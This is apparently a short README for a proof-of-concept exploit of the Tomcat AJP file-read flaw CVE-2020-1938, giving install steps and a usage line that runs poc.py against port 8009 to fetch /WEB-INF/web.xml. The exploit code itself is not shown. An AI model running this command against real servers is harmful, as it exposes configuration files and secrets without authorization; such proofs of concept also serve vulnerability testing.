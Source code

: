 # CNVD-2020-10487-Tomcat-Ajp-lfi-POC

CNVD-2020-10487(CVE-2020-1938), tomcat ajp lfi poc

Usage:
pip install -r requirements.txt

python poc.py  -p 8009 -f "/WEB-INF/web.xml" 127.0.0.1
